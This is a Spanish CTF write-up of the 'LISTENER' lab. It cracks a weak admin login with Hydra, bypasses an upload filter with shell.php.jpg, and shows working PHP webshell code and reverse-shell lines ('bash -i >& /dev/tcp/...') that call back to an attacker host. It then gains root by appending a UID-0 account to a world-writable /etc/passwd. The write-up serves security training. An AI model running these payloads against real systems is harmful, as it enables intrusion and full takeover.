# LISTENER — Writeup de resolución

**Laboratorio:** LISTENER  
**Nivel:** Hard  
**Categoría:** Concept & Beginner  
**Autor:** chifay  
**Fecha:** 2026-10-29  
**Objetivo:** `172.17.0.2` — `listener`  
**Atacante:** Kali Linux — `172.17.0.1` (`docker0`) / `172.16.202.129` (`eth0`)  
**Resultado:** RCE como `www-data`, escalada a `root` mediante `/etc/passwd` escribible, lectura de las flags de usuario y root, y validación del vector de listener con una reverse shell TCP.

> **Flags:**
>
> - Usuario: `LISTENER{y0u_g0t_www_d4t4_v14_f1l3_upl04d}`
> - Root: `LISTENER{pwn_c4t_m4st3r_3tc_p4sswd_wr1t4bl3}`

Las flags se leyeron directamente de `/opt/user.txt` y `/root/flag.txt` a través de la ejecución remota de comandos obtenida durante la auditoría, sin transformación alguna.

> **Alcance y metodología:** todas las acciones se ejecutaron contra `172.17.0.2` por red (HTTP/TCP). La única vía de interacción con el objetivo fue la red; la lectura y escritura de archivos del objetivo se realizó a través de la RCE conseguida por la aplicación web, nunca desde el host.

---

## 1. Resumen ejecutivo

LISTENER es un contenedor Debian 11 que expone únicamente Apache 2.4.66 con PHP 7.4 en el puerto `8080/tcp`. La aplicación se presenta como **NexHost**, un portal de hosting con un panel de clientes. El acceso al panel se consiguió con la credencial débil `admin:admin123`.

Dentro del panel, la sección `/?page=cuenta` permite subir un logo. La validación solo comprueba la extensión final del archivo, de modo que `shell.php.jpg` fue aceptado como imagen. El directorio `/var/www/html/uploads` tiene configurado `SetHandler application/x-httpd-php`, por lo que **todos** los archivos alojados allí se ejecutan como PHP, independientemente de su extensión. Esto permitió obtener ejecución de comandos como `www-data`.

La enumeración local reveló que `/etc/passwd` tenía permisos `666` (`-rw-rw-rw- root root`). Se añadió una cuenta con UID `0` y un hash SHA-512 conocido, y se autenticó con `su` usando un PTY. El resultado fue una sesión `root` y la lectura de `/root/flag.txt`. También se validó el vector que da nombre al laboratorio: un listener TCP en el atacante y una reverse shell desde el objetivo.

| Fase | Resultado |
| --- | --- |
| Reconocimiento | `8080/tcp` — Apache 2.4.66 (Debian) + PHP 7.4; sin otros servicios TCP expuestos |
| Enumeración web | Portal NexHost, panel `/?page=login`, subida de logo en `/?page=cuenta`, `/uploads/logos/` |
| Credenciales | `admin:admin123` — contraseña débil de diccionario |
| Acceso inicial | Bypass de extensión `shell.php.jpg` → RCE como `www-data` |
| Listener | `nc -lvnp 4444` + callback TCP desde `172.17.0.2` |
| Escalada | `/etc/passwd` escribible → cuenta UID `0` → `root` |
| Flags | Usuario y root leídas desde `/opt/user.txt` y `/root/flag.txt` |
| Limpieza | `/etc/passwd` restaurado, webshells y temporales eliminados |

Cadena de ataque:

```
admin:admin123
  └─> panel /?page=cuenta
        └─> upload shell.php.jpg
              └─> /uploads/logos/shell.php.jpg
                    └─> RCE como www-data
                          ├─> listener nc -lvnp 4444
                          │     └─> reverse shell TCP
                          └─> /etc/passwd 666
                                └─> cuenta UID 0 (pwned)
                                      └─> su pwned
                                            └─> root
                                                  └─> /root/flag.txt
```

---

## 2. Reconocimiento

### 2.1. Escaneo completo de puertos

```
nmap -p- --min-rate 5000 -T4 -oN evidencia/01-recon-nmap-full.txt 172.17.0.2
```

Resultado relevante:

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 12:AE:94:3C:7C:66 (Unknown)
```

El escaneo de los 65535 puertos TCP encontró un único servicio expuesto. El nombre `metasploitable.vm` que resuelve Nmap para `172.17.0.2` corresponde a una entrada del host, no al sistema operativo real del objetivo; la detección de servicio posterior confirmó Debian y Apache.



*El escaneo completo deja un único puerto TCP expuesto: `8080/tcp`.*

### 2.2. Detección de servicios

```
nmap -sV -sC -p8080 -oN evidencia/02-recon-nmap-services.txt 172.17.0.2
```

Hallazgos principales:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-server-header: Apache/2.4.66 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Hosting Profesional | NexHost — Web Hosting
```

El script `http-open-proxy` indicó que el servidor “podría estar redirigiendo solicitudes”. No se confirmó un proxy abierto y no se utilizó en la cadena; se trata de una observación del script, no de un hallazgo explotable por sí mismo.

La cookie de sesión `PHPSESSID` se emitía sin el atributo `HttpOnly`, un detalle de endurecimiento que se recoge en la sección de hallazgos.



*Apache 2.4.66 sobre Debian; la cookie `PHPSESSID` viaja sin el atributo `HttpOnly`.*

### 2.3. Escaneo UDP

```
nmap -sU --top-ports 60 -T4 -oN evidencia/01b-recon-udp.txt 172.17.0.2
```

Los puertos UDP más comunes aparecieron como `open|filtered` (sin respuesta), sin un servicio identificable. El resultado no aportó una vía de entrada y no se profundizó en esa superficie.



*Los puertos UDP aparecen como `open|filtered`; no se identificó ningún servicio.*

### 2.4. Enumeración web

Fingerprinting:

```
whatweb -a 3 http://172.17.0.2:8080/
```

```
http://172.17.0.2:8080/ [200 OK] Apache[2.4.66], Cookies[PHPSESSID],
Country[RESERVED][ZZ], Email[soporte@nexhost.loca], HTML5,
HTTPServer[Debian Linux][Apache/2.4.66 (Debian)], IP[172.17.0.2],
Title[Hosting Profesional | NexHost — Web Hosting]
```

Enumeración de directorios y archivos:

```
feroxbuster -u http://172.17.0.2:8080/ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -t 40 -d 2 --filter-status 404
```

Hallazgos:

```
200      GET      157l      317w     6502c http://172.17.0.2:8080/
301      GET        9l       29w      357c http://172.17.0.2:8080/uploads => /uploads/
301      GET        9l       29w      363c http://172.17.0.2:8080/uploads/logos => /uploads/logos/
```

Comprobaciones puntuales:

| Ruta | Código | Observación |
| --- | --- | --- |
| `/` | `200` | Portal NexHost |
| `/uploads/` | `403` | Directorio existente, listado denegado |
| `/uploads/logos/` | `403` | Directorio existente, listado denegado |
| `/robots.txt` | `404` | No existe |
| `/.git/HEAD` | `404` | No existe |
| `/.env` | `404` | No existe |
| `/backup.zip` | `404` | No existe |
| `/server-status` | `403` | `mod_status` presente pero restringido |
| `/.htaccess` | `403` | Protegido por Apache |

La existencia de `/uploads/logos/` es el primer indicio de una funcionalidad de carga de archivos.



*`/uploads/` y `/uploads/logos/` existen y delatan la funcionalidad de carga de archivos.*

### 2.5. Enumeración de la aplicación

La página principal enlaza a `/?page=login` y `/?page=dashboard`. Sin sesión, `/?page=dashboard` responde con una redirección:

```
HTTP/1.1 302 Found
Location: /?page=login
```

El parámetro `page` parece resuelto contra una lista de páginas permitidas. Las pruebas de LFI con `../../../../etc/passwd`, `php://filter/convert.base64-encode/resource=index` y variantes codificadas devolvieron la página de error `404`, por lo que no se encontró inclusión de archivos en ese parámetro.

El formulario de acceso envía un `POST` a `/` con los campos `action=login`, `username` y `password`:

```html
<form method="POST" action="/">
  <input type="hidden" name="action" value="login"/>
  <input type="text" name="username"/>
  <input type="password" name="password"/>
</form>
```

La página de login no incluye token CSRF ni limitación visible de intentos.

---

## 3. Credenciales

### 3.1. Descubrimiento con una lista mínima

Se construyó una lista de tres contraseñas para validar el formulario y se lanzó Hydra contra el `POST` de login. La condición de fallo se basó en la cadena `page=login`, presente en la redirección de error:

```
printf 'wrong\npassword\nadmin123\n' > pw.txt

hydra -l admin -P pw.txt -s 8080 -f -t 1 \
  172.17.0.2 http-post-form \
  '/:action=login&username=^USER^&password=^PASS^:F=page=login'
```

Salida relevante:

```
[8080][http-post-form] host: 172.17.0.2
  login: admin
  password: admin123
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

`admin123` ocupa la línea `90006` de `rockyou.txt` (`14344392` líneas). Es una contraseña de diccionario, corta y predecible; la lista mínima bastó para encontrarla sin necesidad de ejecutar el diccionario completo.

### 3.2. Validación de la credencial

```
curl -sS -i -X POST http://172.17.0.2:8080/ \
  --data 'action=login&username=admin&password=admin123'
```

```
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=...
Location: /?page=dashboard
```

La redirección a `/?page=dashboard` confirma la autenticación. Con la cookie de sesión, el panel devuelve `200 OK` y muestra el menú de cliente:

```
Panel · Servicios · Dominios · Mi Cuenta · Salir
```

La cuenta `admin` corresponde a `admin@nexhost.local` y tiene el plan más alto del portal. No se observó bloqueo ni rate limiting en los intentos realizados.



*`admin:admin123` redirige a `/?page=dashboard`: la credencial es válida.*

---

## 4. Acceso inicial: upload y RCE

### 4.1. Funcionalidad de subida

La sección `/?page=cuenta` contiene un formulario de carga de logo:

```html
<form method="POST" action="/?page=cuenta"
      enctype="multipart/form-data">
  <input type="hidden" name="action" value="upload_logo"/>
  <input type="file" name="logo"/>
</form>
```

La interfaz anuncia: “Formatos: JPG, PNG, GIF. Máx 2MB”. Los archivos se publican en `/uploads/logos/` y la propia página advierte que son accesibles públicamente.

### 4.2. Análisis de la validación

Se probaron distintas extensiones con un contenido PHP mínimo:

```php
<?php echo "PWNED:".php_uname()."\n"; ?>
```

| Nombre enviado | Resultado |
| --- | --- |
| `shell.php` | Rechazado: “Solo se permiten imágenes: jpg, jpeg, png, gif” |
| `shell.phtml` | Rechazado |
| `shell.php5` | Rechazado |
| `shell.phar` | Rechazado |
| `shell.jpg.php` | Rechazado |
| `shell.pHp` | Rechazado |
| `shell.txt` | Rechazado |
| `shell.php.jpg` | **Aceptado** y almacenado como `/uploads/logos/shell.php.jpg` |
| `shell.php.jpeg` | **Aceptado** y almacenado como `/uploads/logos/shell.php.jpeg` |

La validación solo mira la extensión final (equivalente a `pathinfo($name, PATHINFO_EXTENSION)`), pero conserva el nombre original. Un archivo llamado `shell.php.jpg` termina en `.jpg` y pasa el filtro.

Petición representativa del rechazo:

```
curl -b cj.txt -F 'action=upload_logo' \
  -F 'logo=@shellphp;filename=shell.php;type=image/jpeg' \
  'http://172.17.0.2:8080/?page=cuenta'
```

```html
<div class="msg-err">Solo se permiten imágenes: jpg, jpeg, png, gif</div>
```

Petición aceptada:

```
curl -b cj.txt -F 'action=upload_logo' \
  -F 'logo=@shell.php.jpg;filename=shell.php.jpg;type=image/jpeg' \
  'http://172.17.0.2:8080/?page=cuenta'
```

```html
<div class="msg-ok">✅ Logo actualizado:
  <code>/uploads/logos/shell.php.jpg</code>
</div>
```



*El filtro solo comprueba la última extensión y `/uploads` ejecuta el archivo como PHP.*

### 4.3. Por qué se ejecuta el archivo

El archivo subido se solicitó por HTTP:

```
curl http://172.17.0.2:8080/uploads/logos/shell.php.jpg
```

```
PWNED:Linux listener 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64
```

Apache ejecutó el contenido PHP aunque la extensión final fuera `.jpg`. La causa está en la configuración del directorio de subidas:

```
cat /etc/apache2/conf-enabled/uploads-php.conf
```

```apache
<Directory /var/www/html/uploads>
    Options Indexes FollowSymLinks
    AllowOverride All
    Require all granted
    SetHandler application/x-httpd-php
</Directory>
```

`SetHandler application/x-httpd-php` se aplica a **todo** el directorio `/uploads`. Cualquier archivo alojado allí se entrega al intérprete PHP, sin importar su extensión. La combinación “validación por última extensión” + “handler PHP para todo el directorio” convierte una subida de imágenes en ejecución remota de código.



*`SetHandler application/x-httpd-php` convierte todo `/uploads` en código ejecutable.*

### 4.4. Webshell de comandos

Se subió una webshell mínima con el mismo bypass:

```php
<?php
$c = $_REQUEST['c'] ?? 'id';
echo "<pre>".shell_exec($c)."</pre>";
?>
```

Nombre en el objetivo: `/uploads/logos/cmd.php.jpg`.

Ejecución:

```
curl -sS --data-urlencode 'c=id; whoami; uname -a; hostname; cat /opt/user.txt' \
  http://172.17.0.2:8080/uploads/logos/cmd.php.jpg
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
Linux listener 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64 GNU/Linux
listener
LISTENER{y0u_g0t_www_d4t4_v14_f1l3_upl04d}
```

La flag de usuario se encontraba en `/opt/user.txt`, legible por `www-data`.



*RCE como `www-data` y lectura de la flag de usuario.*

### 4.5. Listener y reverse shell

El laboratorio se llama LISTENER y uno de sus vectores es la recepción de una reverse shell. En el atacante se levantó un listener TCP:

```
nc -lvnp 4444
```

```
listening on [any] 4444 ...
```

Desde la webshell se ejecutó un callback usando el soporte `/dev/tcp` de Bash:

```
curl -sS --data-urlencode \
  "c=bash -c 'exec 1>/dev/tcp/172.17.0.1/4444; id; hostname; uname -a; cat /opt/user.txt'" \
  http://172.17.0.2:8080/uploads/logos/cmd.php.jpg
```

Salida en el listener:

```
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33334
uid=33(www-data) gid=33(www-data) groups=33(www-data)
listener
Linux listener 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64 GNU/Linux
LISTENER{y0u_g0t_www_d4t4_v14_f1l3_upl04d}
```

El callback anterior es una variante no interactiva, suficiente para demostrar el canal y evitar dejar una sesión abierta durante la auditoría. El payload interactivo equivalente es:

```
bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```

La conexión saliente confirma que el objetivo puede iniciar tráfico hacia la red del atacante. En un entorno real, este canal se usaría para una shell interactiva, transferencia de herramientas o movimiento lateral. Como alternativa a `nc`, el laboratorio propone `pwncat-cs`:

```
pwncat-cs -lp 4444
```

`pwncat-cs` añade gestión de sesiones, persistencia y post-explotación sobre el mismo concepto de listener. En esta auditoría se utilizó `nc` por disponibilidad, sin que ello altere el vector.



*El objetivo abre una conexión saliente hacia `172.17.0.1:4444`; el `curl` que la dispara se ejecutó desde otra terminal.*

---

## 5. Enumeración post-explotación

Con la RCE como `www-data` se ejecutó la enumeración básica de Linux:

```
id
hostname
uname -a
cat /etc/os-release
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
listener
Linux listener 7.1.5+kali-amd64 ...
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
VERSION_ID="11"
```

El kernel `7.1.5+kali-amd64` corresponde al kernel del host que comparte el contenedor; el userland es Debian 11.

### 5.1. Privilegios y SUID

```
sudo -n -l
```

```
sudo: a password is required
```

```
find / -xdev -perm -4000 -type f 2>/dev/null
```

```
/bin/su
/bin/mount
/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
```

```
getcap -r / 2>/dev/null
```

```
/bin/ping cap_net_raw=ep
```

No se encontraron binarios SUID personalizados ni capacidades peligrosas. Los SUID listados son los estándar de Debian. `sudo` requiere contraseña y no había una regla `NOPASSWD` accesible.

### 5.2. Archivos escribibles

```
find / -xdev -type f -writable 2>/dev/null | grep -vE '^/(var/www/html|tmp|var/tmp)'
```

```
/etc/passwd
```

```
ls -la /etc/passwd
```

```
-rw-rw-rw- 1 root root 969 Feb 22  2026 /etc/passwd
```

`/etc/passwd` tenía permisos `666`: cualquier usuario local podía escribir en él. Es el hallazgo que permite la escalada directa a `root`.



*`/etc/passwd` es escribible por cualquier usuario local.*

### 5.3. Servicios internos

```
netstat -lntup
```

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -
```

Solo Apache escuchaba en `8080`. No había un servicio interno adicional que pudiera usarse como pivote.

---

## 6. Escalada de privilegios

### 6.1. El fallo

`/etc/passwd` es el archivo que define las cuentas locales. Con permisos `666`, un usuario sin privilegios puede:

1. Añadir una cuenta nueva con UID `0` y un hash de contraseña conocido.
2. Sustituir la `x` del usuario `root` por un hash conocido, alterando su contraseña efectiva.
3. Cambiar el shell o el directorio home de cuentas existentes.

En este caso se utilizó la primera opción, que no modifica la cuenta `root` original y es fácil de revertir.

### 6.2. Creación de una cuenta UID 0

Generación del hash SHA-512:

```
openssl passwd -6 -salt listener 'pwn123'
```

```
$6$listener$B479BeH3rjO9cxlK5WVzKZBsj6VNg4/yRgdkjIDRvTWUsqzX52o/2FOPwgIqXVNI6BJyu9Y5V17cvR5TBE6/W0
```

Inserción de la cuenta:

```
printf '%s\n' \
  'pwned:$6$listener$B479BeH3rjO9cxlK5WVzKZBsj6VNg4/yRgdkjIDRvTWUsqzX52o/2FOPwgIqXVNI6BJyu9Y5V17cvR5TBE6/W0:0:0:pwned:/root:/bin/bash' \
  >> /etc/passwd
```

Verificación:

```
grep '^pwned:' /etc/passwd
id pwned
```

```
pwned:$6$listener$...:0:0:pwned:/root:/bin/bash
uid=0(root) gid=0(root) groups=0(root)
```

La cuenta `pwned` tiene UID `0`, por lo que el kernel la trata como `root`.

### 6.3. Autenticación con `su` y PTY

`su` necesita un terminal para solicitar la contraseña. La webshell no proporciona uno, así que se usó `script` para crear un PTY y se envió la contraseña con un retardo para que llegara después del prompt:

```
(sleep 1; printf 'pwn123\n') | \
  script -qec 'su pwned -c "id; hostname; cat /root/flag.txt"' /dev/null
```

```
Password:
uid=0(root) gid=0(root) groups=0(root)
listener
LISTENER{pwn_c4t_m4st3r_3tc_p4sswd_wr1t4bl3}
```

La cuenta `pwned` no tiene entrada en `/etc/shadow`; PAM utilizó el hash presente en el campo de contraseña de `/etc/passwd`. El mismo comportamiento se validó sustituyendo la `x` de `root` por el hash:

```
sed 's#^root:x:#root:$6$listener$...:#' /etc/passwd > /tmp/passwd.new
cat /tmp/passwd.new > /etc/passwd

(sleep 1; printf 'pwn123\n') | \
  script -qec 'su root -c "id; cat /root/flag.txt"' /dev/null
```

```
uid=0(root) gid=0(root) groups=0(root)
LISTENER{pwn_c4t_m4st3r_3tc_p4sswd_wr1t4bl3}
```

`sed -i` no funciona aquí porque `/etc` no es escribible por `www-data`; el reemplazo se hizo generando el archivo en `/tmp` y copiando su contenido sobre `/etc/passwd` con `cat`.



*La cuenta `pwned` tiene UID `0`; `su` devuelve una sesión `root`.*

